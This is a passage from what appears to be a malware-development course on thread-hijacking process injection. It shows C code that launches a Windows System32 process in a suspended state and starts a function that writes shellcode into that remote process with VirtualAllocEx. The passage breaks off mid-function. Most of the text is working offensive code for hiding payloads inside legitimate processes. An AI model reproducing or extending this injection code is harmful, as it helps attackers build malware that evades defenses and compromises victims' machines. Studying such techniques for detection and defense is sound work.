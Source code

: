 ```
	}

	// Creating the full target process path
	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
	printf("\n\t[i] Running : \"%s\" ... ", lpPath);

	if (!CreateProcessA(
		NULL,					// No module name (use command line)
		lpPath,					// Command line
		NULL,					// Process handle not inheritable
		NULL,					// Thread handle not inheritable
		FALSE,					// Set handle inheritance to FALSE
		CREATE_SUSPENDED,		// Creation flag
		NULL,					// Use parent's environment block
		NULL,					// Use parent's starting directory
		&Si,					// Pointer to STARTUPINFO structure
		&Pi)) {					// Pointer to PROCESS_INFORMATION structure

		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] DONE \n");

	// Populating the OUT parameters with CreateProcessA's output
	*dwProcessId    = Pi.dwProcessId;
	*hProcess       = Pi.hProcess;
	*hThread        = Pi.hThread;

	// Doing a check to verify we got everything we need
	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
		return TRUE;

	return FALSE;
}

```
### **Injecting Remote Process Function**

The next step after creating the target process is to inject the payload using the `InjectShellcodeToRemoteProcess` function from the *Process Injection - Shellcode* beginner module. The payload is only written to the remote process without being executed. The base address is then stored for later use via thread hijacking.


```
BOOL InjectShellcodeToRemoteProcess (IN HANDLE hProcess, IN PBYTE pShellcode, IN SIZE_T sSizeOfShellcode, OUT PVOID* ppAddress) {


	SIZE_T  sNumberOfBytesWritten    = NULL;
	DWORD   dwOldProtection          = NULL;


	*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (*ppAddress == NULL) {
		printf("\n\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Allocated Memory At : 0x%p \n", *ppAddress);


```